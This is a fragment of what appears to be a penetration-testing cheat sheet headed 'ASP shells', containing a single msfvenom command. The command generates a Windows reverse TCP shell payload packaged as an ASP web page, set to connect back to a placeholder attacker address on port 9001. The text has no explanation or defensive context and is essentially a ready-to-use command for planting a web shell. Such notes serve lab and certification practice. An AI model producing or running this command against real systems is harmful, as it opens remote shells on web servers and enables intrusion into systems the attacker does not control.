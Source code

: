 # ASP shells

```sh
msfvenom -a x86 --platform windows -p windows/shell_reverse_tcp LHOST=10.11.0.xxx LPORT=9001 -f asp -o shell.asp
```
